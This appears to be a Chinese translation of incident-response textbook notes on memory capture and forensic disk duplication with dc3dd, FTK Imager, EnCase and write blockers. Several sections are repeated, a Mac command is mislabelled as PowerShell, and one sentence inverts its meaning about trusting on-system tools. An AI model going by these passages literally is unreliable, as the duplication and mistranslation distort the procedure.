  Mac Memory Reader** [cybermarshal.com/index.php/cyber-marshal-utilities/mac-memory-reader](http://cybermarshal.com/index.php/cyber-marshal-utilities/mac-memory-reader)

将MacMemoryReader放置在外部媒体或其他目标系统可以访问的适当位置。然后转到目标系统，挂载媒体或共享，执行工具，并将内存文件保存回相同的外部位置：

```powershell
system1:usb root# ./MacMemoryReader -H MD5 ./system1_memory.dd
                       2> system1_memory.log
```

此命令将命令输出重定向到名为system1_memory的文件中，其中包括沿途计算出的捕获内存的MD5密码散列值。内存图像的默认输出格式是Mach-O。如果您需要原始（DD）图像，可以在命令行上使用-P选项。

个别进程转储

就像在Windows系统中一样，当您查看Unix系统时，您可能希望捕获仅一个进程的内存空间。在早期，您只需要dd / proc / <pid> / mem，其中<pid>是您想要转储的进程的进程ID。然而，在大多数现代Unix版本中，由于安全原因，这已经不再可能。您将需要使用一个工具，例如gcore，它专门用于访问和转储进程的内存空间。

Gcore是GNU调试器（gdb）的一部分。 Gcore实际上只是一个运行gdb的shell脚本，附加到指定的pid，创建一个核心转储，然后分离。有关GNU调试器项目的更多信息，包括源代码，请访问以下网站。

::：▶ **在Web上获取它 GNU调试器网站** [www.gnu.org/software/gdb](http://www.gnu.org/software/gdb)

::：

如果在您正在调查的系统上已经安装了gcore和gdb，并且您没有理由怀疑它们是受信任的文件，则可以通过运行此命令转储进程的内存：

```powershell
gcore –o /mnt/usb/case12-tag001-pid4327-sysauthd.img 4327
```

这个命令将pid为4327的内存转储到文件/mnt/usb/case12-tag001-pid4327-sysauthd.img中。这里的命名约定包括案件号、标记号、pid和进程名称作为文件名的一部分。有许多可接受的命名约定；这只是一个例子。确保在记录过程和程序时标准化一个，这将帮助您保持组织，特别是如果您正在捕获许多进程的内存。

在某些情况下，情况可能并不那么简单。如果未安装gcore或您有理由怀疑攻击者篡改了gcore脚本或gdb二进制文件或相关库，则使用gcore将会更加困难。最直接的方法是构建一个静态的gdb二进制文件，并从受信任的来源复制gcore脚本。这将需要访问一个与您正在调查的系统相同发行版和版本的干净操作系统。我们最好的建议是寻求专家的帮助来协助您完成这个过程。

### **那又怎样？**

实时数据收集可以保留易失性数据，帮助您快速获得答案。旧的“对所有内容进行镜像”的方法，虽然有时是适当的，但很少有效。在时间极为紧迫、关键的情况下，正确使用实时数据收集技术将使攻击者盗窃数百万美元之间的区别，或仅仅是造成业务的轻微中断。您的勤奋准备将允许平稳高效的实时数据收集，并有助于防止突破成为灾难。

### **问题**

1. 实时数据收集可能有助于回答哪些调查问题？
2. 您是否应在每个您怀疑被入侵的系统上执行实时数据收集？解释您的答案。
3. 在哪些情况下，收集内存镜像对调查最有用？
4. 在调查中，您确定了一个运行您以前没有处理过的操作系统的嫌疑系统。您的任务是执行实时数据收集。请解释您应该如何收集实时数据。


## 第8章 **取证复制**

在事件期间，大量的数据被收集、保留、编目和分析。受影响或嫌疑计算机系统的取证镜像是最全面的信息来源之一。尽管恶意活动可能不会被事件日志记录或飞越式网络传感器捕获，或者在其他数据源中可能“常见”而无法进行分析，但在组织的硬盘驱动器上往往可以看到其存在的证据。在本章中，我们涵盖了取证社区用于正确复制数据的过程、格式和工具。您可能会发现案例法允许较低的标准。但是，法院可能会认为最佳复制可接受并将其作为证据。然而，作为IR团队，您必须努力生成最好的副本，使您的团队和任何可能询问或要求访问的其他人都能够回答任何问题。考虑到这一点，有两种类型的复制：简单复制和“取证”复制。*简单复制* 包括复制特定数据。数据可能包括单个文件、一组文件、硬盘驱动器上的分区、整个硬盘驱动器或其他数据存储设备的元素以及存储在其中的信息。*取证复制* 是创建的准确数据副本，旨在作为法律程序中的证据。此外，我们将*取证复制* 定义为源介质的每个可访问位的映像。

我们鼓励您将收集的所有数据视为可能对法律程序产生贡献的证据。为此，您应该使用取证社区普遍接受的方法进行复制。在本章中，我们讨论了创建简单和取证副本的一些考虑因素，并介绍了使用最广泛的一些方法。

您应该选择哪些工具来执行取证复制？基于现有的法律标准来规范专家证言的可接受性，我们认为取证复制工具必须在以下几个方面证明自己。在本章中需要记住的一个重要注意事项是，我们使用“工具”这个术语来描述任何成像解决方案。此解决方案可以是软件或硬件。

- 工具必须能够成像或记录存储介质上每一位可访问数据的能力。
- 工具必须创建原始存储介质的取证副本。
- 工具必须以强大而优雅的方式处理读取错误。如果成像操作在重复尝试后失败，将记录错误并继续进行过程。可能会在输出文件中放置一个与输入具有相同尺寸的占位符，该占位符的内容必须在工具的文档中详细说明。
- 工具或过程不得对原始存储介质进行任何更改。
- 工具必须生成可以由第三方重复和验证的结果。
- 工具必须生成详细记录所请求的操作和遇到的任何错误。
> **每一位？**

    在列表中提到的第一个要点中，我们指出工具（硬件或软件）必须能够复制或记录存储（或源）介质上的每一位可访问数据。这是一个有些宽松的要求，因为并非*每一位*都是可访问的。硬盘驱动器或SSD本身就是一个存储系统，并根据许多因素向主机计算机提供可寻址扇区。其中一些配置是可访问的，例如驱动器配置覆盖和主机保护区域（HPA）。其他则不可访问，例如为SSD负载平衡或错误检测重新分配扇区。我们将在本章中讨论HPA访问问题。


请注意，您在此处看不到的要求是使用商业取证镜像工具。我们遇到了一些不太谨慎的销售人员，他们建议他们的解决方案更优越，基于非技术因素，例如在审判中被接受的次数。只要您的过程得到社区的普遍接受并且正确执行，唯一可能的优势可能是可用性。

在成像过程中使用可靠的工具非常重要。NIST 信息技术实验室运行计算机取证工具验证项目，其中维护复制工具、软件写入阻塞器、硬件写入阻塞器和已删除文件恢复工具的测试规范和结果等。如果您的组织使用的过程未在该网站上呈现，则可获得测试计划和支持数据，以便您进行自己的测试。

> **到网上获取它

    NIST 计算机取证工具测试 (CFTT)** [www.nist.gov/itl/ssd/cs/cftt/cftt-project-overview.cfm](http://www.nist.gov/itl/ssd/cs/cftt/cftt-project-overview.cfm)


### **取证镜像格式**

大多数IR团队将创建和处理三种主要类型的取证镜像：完整磁盘、分区和逻辑。每个都有其目的，您的团队应该了解何时使用一个而不是另一个。最重要的是，您的团队需要了解该选择的影响。虽然完整磁盘映像是最理想的格式，因为它是最全面的，并以静态状态捕获存储介质的内容，但技术、业务优先级、可用性和迅速性可能需要不同的流程。在本节中，我们将讨论团队可用的选项。图8-1用于说明每个选项的范围。


#### **完整磁盘映像**

获取“完整磁盘映像”的过程旨在复制存储介质上的每个可寻址分配单元。这包括主机保护区域（HPA）和驱动器配置覆盖（DCO）。尽管实践中可能存在一些困难（例如HPA、修改的驱动器固件、损坏的扇区和重新映射的扇区），但理论上所得到的映像会在那一时刻捕获每个分配单元。当进程无法完成时，如前所述，它必须以可预测的方式失败。

如果我们采取理想的情况 - 一个没有坏扇区、没有主机保护区域，并且正确报告其真实扇区数的硬盘，完整的磁盘映像会包含什么？图8-1描述了一个普通的硬盘 - 您可能期望在从Dell或HP等OEM来源购买的系统中找到的硬盘。它包含引导扇区、三个分区和驱动器末尾的一小部分未分配空间。当你获取完整的磁盘映像时，输出文件包含每个可访问成像软件的分配单元或扇区。作为三个选项中最彻底的选项，该过程将允许审查员查看存储驱动器管理块、OEM恢复分区、任何用户生成的分区和可能曾经保存数据的未分配扇区中的数据。此外，如果您需要部分被格式化操作覆盖的数据的恢复，从整个磁盘开始进行操作是最好的选择。

我们将在本章末尾讨论镜像RAID设备的问题。当事情开始变得乏味和单调时，没有什么比处理处于不一致状态的RAID来照亮您的工作周。


- 眼见为实的报告
  
    几年前，我们参与了一项内部调查，调查一个员工是否未经授权地访问了金融报表，这是在提交SEC文件之前。该主题的主要系统（苹果MacBook Pro）被复制，并提供完整的磁盘映像进行分析。
    
    调查人员从服务器日志中获得了信息，显示使用了特定的浏览器版本（可由用户代理字符串识别）来访问受限数据。
    
    该主题知道自己将接受调查，并试图掩盖自己的踪迹，通过降级整个系统来结束与调查人员识别的浏览器版本前的版本。他还研究了常见的取证分析技术，并了解了文件系统上日期和时间戳的问题。检查揭示了该主题尝试通过以下步骤欺骗调查人员：
    
    1. 修改系统日志文件以消除事件期间的计算机使用证据。
    2. 调整主分区大小以腾出空间用于第二个分区。
    3. 更改计算机的时间和日期。
    4. 在第二个分区上安装较旧的操作系统版本。
    5. 迁移用户数据。
    6. 迁移修改的日志文件。
    7. 删除对第一个原始分区的访问权限，以确保其不会引导或自动安装。
    8. 恢复计算机的时间和日期。
    9. 重新启动并开始使用新的、但显然较旧的分区来累积最近的活动。
    
    尽管他尝试了这些步骤，但在此过程中留下的痕迹很多；然而，大多数痕迹都在原始分区上。他在最近安装的分区上做得足够好，如果调查人员只获取了活动分区的分区映像，他们仅能简单地得出驱动器上有多个异常的结论。名为“待编辑”和“已完成”的原始桌面上的文件夹，包含日志文件的“前”和“后”版本，将不会被发现，因为需要完整的磁盘映像来恢复原始文件。
    
- 注意：
  
    主机受保护区域和驱动器配置覆盖是改变驱动器容量的方法。 HPA和DCO功能的最初理由之一是使驱动器制造商和集成商能够更改硬盘驱动器上可访问的扇区数量。这导致有经验的一方可能通过更改驱动器的表面大小来隐藏硬盘驱动器上的数据。有传言称主题使用此功能进行恶意活动，但这种情况非常罕见。尽管如此，人们应该意识到这种可能性。
    有关HPA和DCO功能及其后继功能的其他信息可以在T13技术委员会发布的文档中找到。
    
    几年前，我们参与了一起内部调查，调查一名员工被认为在提交SEC文件之前未经授权地访问了财务报表。该主题的主要系统（一台Apple MacBook Pro）被复制，并提供了完整的磁盘映像进行分析。
    
    调查人员根据服务器日志收集到的信息显示，使用了一种特定的浏览器版本来访问受限数据，该版本可以通过用户代理字符串进行识别。
    
    该主题知道自己将接受调查，并试图通过降级整个系统来获得一个早于调查人员所确定的浏览器版本的版本，以掩盖自己的行踪。他还研究了常见的取证分析技术，并了解了文件系统上时间戳的问题。检查发现，该主题试图通过以下步骤欺骗调查人员：
    
    1.修改系统日志文件以删除事件期间的计算机使用证据。
    
    2.调整主分区大小以腾出空间。
    
    3.更改计算机的时间和日期。
    
    4.在第二个分区上安装旧版本的操作系统。
    
    5.迁移用户数据。
    
    6.迁移修改后的日志文件。
    
    7.删除对第一个原始分区的访问权限，以确保其不会引导或自动挂载。
    
    8.恢复计算机的时间和日期。
    
    9.重新启动并开始使用新的分区积累最近的活动。
    
    尽管他做了尝试，但在这个过程中留下的证据数量很多；然而，大多数证据都在原始分区上。他在最近安装的分区上做得足够好，如果调查人员只获得了活动分区的分区映像，他们只能得出结论，该驱动器上存在多个异常。原始桌面上名为“to edit”和“completed”的文件夹包含日志文件的“before”和“after”版本，这些文件夹不会被找到，因为需要完整的磁盘映像才能恢复原始文件。
    
  #### **分区映像**
  
    大多数取证映像工具允许您指定单个分区或卷作为映像的源。分区映像是完整磁盘映像的子集，包含驱动器上单个分区中的所有分配单元。这包括该分区中存在的未分配空间和文件松弛空间。分区映像仍然为您提供了进行低级别分析并尝试恢复删除文件和检查来自该分区的松弛空间的机会。即使您在驱动器上映像每个分区，也请记住，还有其他包含数据的磁盘部分。驱动器开始或结束处的保留区域，分区之间的空间以及任何未分区的空间都不会被捕获。
  
    由于分区映像不捕获驱动器上的所有数据，因此仅在特殊情况下才会采取。可能存在某些情况，例如有限的授权范围和过大的磁盘，阻止您采取完整磁盘映像。同时，您可能不知道确切需要的文件，或者您可能还想有机会检查未分配空间，因此不能仅复制文件。在这些情况下，映像一个或多个分区可能是理想的选择。
  
#### **逻辑映像**


逻辑镜像不太像“图像”，更像是一个简单的副本，这种副本我们之前称为“简单副本”。虽然逻辑副本通常是最后的选择，一旦听到要进行逻辑副本时，大多数鉴定人都会感到不满，但有充分的理由选择逻辑副本。我们使用的常见理由是：

- 根据法律请求需要特定的文件。有时只需要特定的文件来做出回应。由于法律限制，可能无法获得完整的磁盘镜像。
- 对一台NAS或SAN设备的特定用户文件感兴趣。在某些情况下，由于对象重用或对低级磁盘结构的访问，从NAS或SAN设备中恢复已删除或丢失的项目几乎是不可能的，因此不需要进行完整的取证副本。
- 需要从企业关键的NAS或SAN中复制数据。您的组织可能不允许IR团队将磁盘单元离线以执行副本，您可能无法执行实时镜像。

逻辑镜像通常是边缘情况下最适合的选择。当出现这种情况时，请确保记录下后续的理由。

创建逻辑镜像应使用哪些工具或流程？在收集完整副本时，仍需要记录文件元数据以及完整性哈希值。FTK Imager和EnCase都能够为逻辑文件创建证据容器。它们将记录文件的元数据，并允许您正确管理证据的完整性。

当您收到不符合IR团队设置的标准的数据时会发生什么？这在我们的职位中经常发生——系统管理员提供带有日志的USB存储设备，VM服务器管理员提供与虚拟机相关的所有文件（例如VMX、VMDK和VMSS文件），或网络管理员在您的桌子上放下12GB的网络捕获数据。在这些情况下，尽可能多地记录并像您的团队收集取证镜像一样跟踪数据。

#### **镜像完整性**

创建取证镜像时，会生成加密校验和有两个原因。首先，当从离线（静态）保存的驱动器中获取镜像时，哈希用于验证和证明取证镜像是原始文件的真实准确表示。其次，哈希用于检测自镜像创建时起数据是否被修改。当您使用静态镜像时，哈希用于两个目的。但是，如果镜像是从活动系统创建的或创建为逻辑文件副本，或者出于合法原因未保留原始数据，则哈希仅用于确保镜像的完整性在镜像生命周期内得到维护。

- 注意：
  
    当驱动器存在坏扇区时，通过原始媒体的每次迭代可能会导致计算不同的哈希值，这取决于驱动器固件如何解释磁介质上的信息。在这些情况下，良好的错误条件记录非常重要。当损坏的驱动器进行镜像处理时，哈希将用于上述第二个目的，即证明镜像中数据的完整性已得到维护。
    

哈希（或一系列哈希）的存储方式取决于用于存储取证镜像的文件格式。几种取证镜像格式旨在包括验证镜像完整性的方法。使用此方法的两种常见格式是高级取证框架格式（AFF）和专家证人格式（EWF）。由AccessData的FTK和ASR Data的SMART生成的AFF格式将源拆分为一个或多个AFF段，然后将它们保存到AFF镜像文件中。AFF格式为每个AFF段存储MD5或SHA1校验和以及整个镜像的校验和。AFF格式是可扩展的，因此可以选择在镜像文件中存储任何元数据，包括额外的校验和。Guidance Software的EnCase创建基于Andrew Rosen的专家证人文件格式的E01文件，其中包含每64个扇区的校验和和整个原始磁盘镜像的MD5哈希。在这两种情况下，用于验证的哈希可从用于创建镜像的应用程序中访问鉴定人。这些哈希应记录在您的团队生成的任何文档中。
当文件格式无法提供存储完整性哈希的方法时，检验员（或负责获取镜像的人）必须记录它们。当镜像为原始镜像格式时，某些工具可以使此过程变得容易。AccessData的FTK Imager将在输出文件旁边输出一个文本文件，其中包含有关案例、源介质、时间和日期以及哈希的信息。DCFLdd可以从源介质生成哈希，作为生成的镜像，可选择将该信息保存到文本文件中。无论哪种情况，您都必须确保哈希成为证据链、报告和其他文档的一部分。

- 注意：
  
    在本书的之前版本中，我们提到了两种取证镜像类型。第一种是取证镜像，适用于任何完整磁盘或分区复制，这是原始介质字节的1:1表示。如果从取证镜像和原始介质生成哈希，则它们将是相同的。第二种是合格的取证镜像，适用于任何具有嵌入式附加数据的整个磁盘分区映像。由FTK和EnCase生成的文件格式是合格的取证镜像，因为它们在整个映像文件中嵌入了头部和校验和数据。
    
##### **我应该使用哪种输出格式？**

    在几乎每一项调查中，我们都与客户合作收集取证镜像时都会提出这个问题。答案取决于几个因素。一般来说，当映像Microsoft环境时，我们建议人们生成EWF格式的输出文件。此格式由FTK Imager和EnCase Imager生成，但可供许多检查进程使用，包括任何开源项目（通过libewf库）。如果源是Unix系统、RAID磁盘成员或任何超出寻常之外的东西，我们要求使用真正的*取证镜像*，例如DC3dd和FTK Imager。如果需要进行任何类型的高级处理，则镜像必须是原始的1:1表示，转换会浪费宝贵的时间。


### **传统镜像**

如前所述，三种镜像类型是完整磁盘、分区和逻辑。响应者通常使用传统镜像过程或实时镜像过程创建其中一种类型。在本节中，我们将讨论传统成像技术和工具，以帮助您完成此过程。传统成像是针对静态驱动器（即不是活动运行系统的硬盘）。系统已关闭并启动到取证成像环境，或将磁盘插入成像仪或检查工作站进行复制。无论驱动器是否在已关闭的RAID磁盘包或单个驱动器中，被关闭的状态都是传统复制的起点。

#### **硬件写入封锁器**

确保源介质不被修改的最佳方法是使用专业硬件，禁止写入命令到达驱动器控制器。这些写入封锁器的套件应该在每个IR团队的工具箱中。

写入封锁器通常是协议桥接器，包含修改后的固件或设计用于拦截协议命令的ASIC的子集。图8-2显示了四个版本。有了这些，您可以可靠地复制SATA、PATA、SCSI、SAS和USB设备。图中显示的写入封锁硬件来自Tableau。


- **在网站上获取
  
    Tableau Forensic Products 主页** [www.tableau.com](http://www.tableau.com/)
    

WiebeTech 生产了一款更加轻便的版本，可以通过 USB、Firewire 和 eSATA 对 SATA 和 PATA 硬盘进行镜像。许多我们的顾问都携带这些设备在现场使用，因为它们构造良好，适合小型箱子，并允许快速通过 eSATA 复制驱动器。WiebeTech Forensic UltraDock v4 在图 8-3 中连接到受试者的驱动器。


- **在Web上获取
  
    WiebeTech主页** [wiebetech.com](http://wiebetech.com/)
    

我们刚刚介绍的两个硬件写入阻断器的示例是当前市场领导者。两家公司在社区中非常活跃，并执行广泛的验证测试，以确保写入保护方案是强大和可靠的。但是，正如我们之前提到的，有关硬件写入阻断器的最新信息，请参阅NIST CFTT网站。

#### **图像创建工具**

创建取证副本的最常见方法是通过软件。我们使用的三个主要工具是DC3dd、AccessData的FTK Imager和Guidance Software的EnCase。每个工具都有其优缺点，使其更或不太适合特定情况。您应该熟悉一些工具，以防一个在特定情况下无法正常工作。在接下来的几个部分中，我们将逐步介绍每个工具的使用方法。

在任何复制过程中，您需要考虑五件事情：

- 我的源介质是否受到写保护？
- 如果我处于无法使用硬件写入保护设备的情况下，我的审查环境是否会尝试自动执行任何操作？
- 我是否有足够的空间用于输出文件？
- 我如何处理源介质？
- 需要哪些命令行选项才能获得预期的输出？

每个部分都将从相同的初始条件开始。您有一个需要成像的嫌疑人硬盘。它通过写入阻断器连接到取证审查工作站，并且您已准备好一个卷来接收取证图像文件。如前所述，这被称为“成像静态驱动器”。

- 警告：
  
    当您创建静态驱动器的图像或访问任何类型的证据时，请不要忘记始终使用硬件写入阻断器以防止意外修改。不要认为您的操作系统“更好”，并且除非您指示它，否则不会更改证据。事实上，许多“只读”安装操作将通过更新分区结构、重放日志或修复轻微的不一致性来修改证据。总是保险起见。
   
    

**dd，DCFLdd和DC3dd**

几乎所有Unix系统都有dd命令。根据Unix手册页面，dd命令可以“转换和复制文件”。因为大多数基于Unix的系统将硬盘驱动器和其他硬件表示为文件，所以可以使用dd命令执行取证副本。但是，当用于执行取证副本时，dd命令有一些功能缺失。两个主要缺点是，它没有内置的生成和记录加密校验和的功能，也不提供用户反馈-除非存在灾难性故障。虽然标准的dd命令可用于创建映像，但如果有更新的基于dd的工具（例如DCFLdd或DC3dd），则不建议使用。

DCFLdd和DC3dd是基于原始dd源代码构建的专用应用程序。美国国防部计算机取证实验室（DCFL）和国防网络犯罪中心（DC3）是这些工具的创建者。修改的代码目前存放在Sourceforge网站的项目中。添加了功能，使它们比普通的dd命令更适合用作取证复制工具。截至本写作，DC3dd是其中更新的工具，并具有更多的最新更新和功能。

- **上网获取
  
    dcfldd Sourceforge主页** [sourceforge.net/projects/dcfldd](http://sourceforge.net/projects/dcfldd)
    
    **dc3dd Sourceforge主页** [sourceforge.net/projects/dc3dd](http://sourceforge.net/projects/dc3dd)
    

让我们使用DC3dd工具执行取证副本。我们将通过最常见的用例-使用物理写入阻塞器连接到检查工作站的驱动器的静态映像来演示。

您需要能够运行DC3dd，因此有两个选项：使用预安装有DC3dd的启动磁盘，或将预编译的DC3dd二进制文件复制到您的Linux检查工作站上。自然而然的选择是找到预安装有DC3dd的启动磁盘。有多种解决方案可用，例如BackTrack和Ultimate Boot CD。

如果您选择使用您的检查工作站，而不是CD引导环境，则大多数Linux发行版都可以通过软件包管理器访问DC3dd的二进制包。例如，在Ubuntu中，使用apt-get安装名为“dc3dd”的软件包。如果您的分发版不包括DC3dd作为已知软件包，或者您在Microsoft Windows中，则必须自己下载和编译DC3dd。

让我们通过DC3dd运行磁盘复制。命令行在任何Unix或POSIX兼容的平台上都是相同的，除了设备路径。在以下各节中展示的过程在运行Ubuntu 12.04的取证工作站上执行。

正如我们之前注意到的那样，我们的示例显示通过只读桥连接的证据，并将/mnt/storage作为输出位置。我们已经在那里挂载了足够大的卷，准备接收映像。在插入设备后确定源或证据驱动器可能对新手来说有些棘手。在Linux下，最简单的方法是检查dmesg命令的输出。如果您最近连接了要映像的设备，则信息将出现在dmesg输出的底部。图8-4显示了一个示例。


在本例中，内核检测到一个1GB大小的USB闪存盘，并将其分配为设备“sdb”。在Linux下，所有磁盘设备都可以在/dev目录下寻址，该物理媒体的完整文件名为/dev/sdb。现在我们将运行DC3dd命令，并将此设备文件指定为输入，以及一个输出位置、哈希算法和哈希日志文件。请注意，如果您需要有关可用选项的更多信息，则可以运行./dc3dd –help。

```
   sudo dc3dd if=/dev/sdb of=/mnt/sdb.dd hash=md5 hlog=/mnt/sdb.log

```

- **设备自动安装**
  
    大多数桌面Linux发行版和Apple OS X都会尝试自动安装连接到系统的任何可移动介质。如果您不是通过只读桥复制数据，则需要禁用负责自动安装功能的守护程序。在线上有许多有关Linux各个发行版和大多数最新版本的OS X的此过程的参考信息。该过程通常涉及终止或禁用监视硬件更改的守护进程。在当前版本的OS X中，该守护进程称为“diskarbitrationd”。
    

在这个例子中，我们将镜像写入/mnt/sdb.dd作为一个单独的文件。可选地，我们可以使用ofs=和ofsz=选项将镜像拆分为多个文件。例如，ofs=/mnt/sdb.0000 ofsz=500M将创建最大为500MB的文件，这些文件以“sdb.0000”开头，每个段递增一个。会话的日志存储在/mnt/sdb.log中，由hlog=选项指定，哈希作为MD5校验和计算，由hash=选项指定。

默认情况下，DC3dd将探测设备的大小，并在其状态输出中提供百分比进度。在运行时，DC3dd还更新其读取的数据量以及经过的时间。DC3dd运行的示例如图8-5所示。

一旦DC3dd成功返回到命令提示符，镜像就完成了。您可以使用计算出的哈希值完成文档并保护证据。

**AccessData FTK Imager**

AccessData的FTK Imager是一个免费的综合成像工具。目前有Microsoft Windows、Linux（Debian和Fedora）和Mac OS 10.5到10.8的版本可用。Windows版本基于GUI，有两个主要版本——“Lite”版和完整安装版。主要区别在于“Lite”版是便携式的，这意味着它将在独立模式下直接从便携式USB驱动器运行。FTK imager可以为所有支持的操作系统从命令行运行。

FTK Imager可以创建四种格式的输出图像：Raw（dd）、EnCase（E01 / EFW）、SMART和AFF。成像器还支持将文件拆分为块，这在存在文件系统或备份系统限制时非常有用。还有许多其他有用的功能，例如查看图像或实时媒体、提取文件、转换图像、将图像挂载为驱动器字母等，这些功能在用户指南中有详细说明。

- **在网上获取
  
    AccessData** [www.accessdata.com](http://www.accessdata.com/)
    

**Guidance Software EnCase**

Guidance Software提供三种工具来创建法庭取证镜像。您可以使用EnCase Forensic产品直接在Microsoft Windows中创建镜像，也可以使用两个命令行工具winen.exe或winacq.exe，或者使用基于Linux的Guidance Software引导磁盘之一运行LinEN（一个基于Linux的镜像创建工具）。您必须拥有EnCase的副本才能访问这些工具。镜像工具允许您选择所需的压缩级别和输出段大小。镜像的输出格式是EnCase的“E01”格式。

- **在网上获取
  
    Guidance Software EnCase产品信息** [www.guidancesoftware.com/forensic](http://www.guidancesoftware.com/forensic)
    


### **实时系统复制**

实时系统复制是指在系统正在运行时创建媒体镜像的过程。虽然这种情况并不理想，但有时是唯一的选择。例如，该系统可能是非常重要的商业系统，在非常短的维护窗口之外不能关闭。在其他情况下，您可能面临无法在系统关闭后访问的加密驱动器。执行实时镜像将对系统进行微小修改，但您将能够获得镜像。一定要详细记录您所做的工作，包括使用的工具、遵循的程序、可能正在运行的服务以及确切的日期和时间。如果有人“挑战”您修改系统的事实，您将需要这些信息。如果您有适当的文档，此类挑战更容易被驳斥。

- 警告：
  
    执行实时系统复制比执行静态镜像的风险大得多。没有硬件写入阻止器可以防止您破坏证据。您还在正在运行的生产系统上执行复制。请记住，您始终有可能严重影响性能，甚至使系统崩溃。
    

实时镜像的另一个潜在缺点是源介质是一个移动目标。在您创建副本时，媒体内容正在发生变化。此外，操作系统可能在内存中缓存了某些尚未提交到媒体的数据。因此，在一些罕见的情况下，由于复制过程从磁盘读取的数据不一致，您创建的副本可能部分或完全无法使用。

- **在网上获取AccessData**
  
    [www.accessdata.com](http://www.accessdata.com/)
    

**Guidance Software EnCase**

Guidance Software提供三个工具来创建取证镜像。您可以使用EnCase Forensic产品直接在Microsoft Windows中创建映像，也可以使用两个命令行实用程序winen.exe或winacq.exe，在其中一个基于Linux的Guidance Software启动磁盘上运行LinEN（一种基于Linux的映像创建工具）。您必须拥有EnCase的副本才能访问这些工具。映像工具允许您选择所需的压缩级别和输出段大小。图像的输出格式是EnCase“E01”格式。

- **在网上获取Guidance Software EnCase产品信息**
  
    [www.guidancesoftware.com/forensic](http://www.guidancesoftware.com/forensic)
    

!https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d3ed3bb7-66ac-4c82-b6cc-a409a4334096/Untitled.png

**现场系统复制**

现场系统复制是指在正在运行的系统中创建媒体图像。虽然这种情况不是首选，但有时是唯一的选择。例如，该系统可能是极其业务关键的系统，除非在非常短的维护窗口期间关闭，否则无法关闭。在其他情况下，您可能面临无法在系统关闭后访问的加密驱动器。执行实时映像将对系统进行轻微修改，但您将能够获得映像。务必准确记录您所做的事情，包括所使用的工具、所遵循的过程、可能正在运行的服务以及确切的日期和时间。您将需要这些信息以防有人“挑战”您修改系统的事实。如果您有适当的文档，这些挑战将更容易被驳斥。

- 注意：
  
    执行实时系统复制的风险比执行静态映像要大得多。没有硬件写入阻止器可防止您破坏证据。您还在实时生产系统上执行复制。请记住，您始终有可能严重影响性能，甚至崩溃系统。
    

现场映像的另一个潜在缺点是源媒体是一个移动目标。在创建副本时，媒体内容的更改正在发生。此外，操作系统可能会将某些数据缓存在内存中，这些数据尚未提交到媒体。因此，在某些罕见情况下，由于读取磁盘的数据不一致，您创建的副本可能部分或完全无法使用。

创建实时镜像时必须特别小心。由于没有任何写保护措施，可能会错误地将镜像写回到源驱动器中，从而在过程中破坏证据。您还必须注意使用何种类型的软件以及如何使用它。您不应复制或安装任何东西到源驱动器中，而是应使用可以直接从外部媒体或网络共享运行的工具。另外，您应尽量使用“轻量级”软件，以尽量减少对源系统的影响。我们经常使用 FTK Imager Lite 版本来执行实时镜像。该过程与静态镜像几乎相同，但存在两个主要区别：

- 直接从便携式媒体或网络共享运行成像软件。
此外，尽量减少对正在运行的系统进行修改，例如复制或安装软件。
- 选择与正在运行的系统的硬盘相对应的源。请务必查看源的完整列表，并根据需要映像每个驱动器。
- **复制苹果硬件**
  
    与其他硬件相比，苹果硬件往往具有更高的组件集成度。他们的 MacBook Air 系列是2010年首款广泛销售的使用 mSATA 闪存驱动器的笔记本电脑，而旧版本的驱动器使用 ZIF 带连接器。对于大多数 IR 和取证团队来说，两者都可能会有问题。自1999年的第一款 PowerBooks 以来，苹果支持一种称为目标磁盘模式的操作模式。在系统重置后，这将使系统进入类似于超级昂贵的外部硬盘驱动器的配置。系统进入目标磁盘模式后，您可以将其插入另一台计算机上的 FireWire（或 ThunderBolt）端口并访问驱动器。此时，您可以像对待任何其他桥接器一样（请注意，它提供读取和写入访问权限）进行复制。在出版时，只有一家公司，Tableau LLC，销售 FireWire 只读桥接器。
    

### **企业资产的复制**

有时，您会遇到一种情况，即作为调查一部分的证据存储在非常大的 RAID、SAN、NAS 或其他大型中央存储系统中。在这些情况下，由于数据量或存储配置的复杂性，完全复制整个原始来源是不可行的。在某些情况下，可能可以创建完整的副本，但可能不是理想的。我们将介绍您在做出如何保存这些情况下的决策时应考虑的一些常见问题。

首先，您必须确定相关数据存储在何处，并制定一个适当的计划，仅创建相关数据的逻辑副本。如果您的组织主要使用某些取证工具，例如 EnCase 或 FTK，则每个工具通常都有一种功能，可将文件的逻辑副本复制并存储到专有的“容器”中。复制过程和结果容器会保留有关每个源文件的原始元数据，并包括加密校验和，以便将来可以验证数据。

如果数据存储系统的大小适中，您可能有时间和资源来完成完整的复制。但是，要注意，某些存储系统使用专有方法来存储数据和管理媒体。因此，您可能无法将副本重新组装成可用状态。如果您知道特定的数据是相关的，那么最好使用您知道将提供良好结果的方法（例如，对已挂载卷执行实时镜像或创建逻辑文件副本）。如果您不确定哪些数据是相关的，或者如果您拥有存储系统并希望保持对其的访问权，那么您可能需要考虑创建媒体的完整物理级别图像，并尝试创建工作重新组装。当然，这将使存储单元脱机一段时间。

#### **虚拟机的重复**

在此书上一版出版以来的10年里，企业计算已经发生了根本性的变化。保持不变的技术清单可能更容易管理。许多服务器房和数据中心完全虚拟化，为IR团队提供了另一种选择。管理员可以简单地向您的团队提供组成虚拟机的文件的副本，而不是传统的收集过程。如果VM已暂停，则还可以无需费用地获取其内存图像。在以这种格式收到系统时，我们像处理其他情况一样记录源，加密哈希和其他细节。这是捕获服务器的取证图像的非常有效的手段。

- **成像RAID或成像磁盘...
  
    这是个问题**
    
    常见的RAID成像场景是您可以访问完整的RAID机架，并决定是成像每个单独的驱动器还是尝试成像由RAID控制器呈现的卷。在大多数情况下，我们已决定允许系统引导到受信任的媒体（例如自定义的Linux映像）并成像由RAID控制器呈现的卷。自然地，您会进入RAID BIOS并验证配置，以确保所有存储在物理卷上的数据都得到了账务。这使得分析更加容易，因为RAID重建并不总是一个简单的过程。
    

### **那么呢？**

在本章中，我们讨论了生成数据取证副本的最常用方法。存在许多商用软件应用程序和开源工具，它们已经被证明可以可靠地复制硬盘，存储器棒和其他可移动媒介。随着时间的推移，技术将会发生变化，同时也会带来新的方法来连接，保护和复制在调查期间的数据。当开发新的工具或方法时，重要的是要考虑是否已有其他领域的人测试和使用了新的解决方案。

在预事件准备阶段，确定您的组织可能会遇到的存储类型。确保您拥有执行复制所需的工具，并在非必要硬件上进行练习。许多专门从事取证计算机硬件的商店非常高效，会在您打电话的当天发货。在紧急情况下运行是了解新硬件的糟糕时机。准备好它，保持维护，您几乎可以准备好应对任何情况。

### **问题**

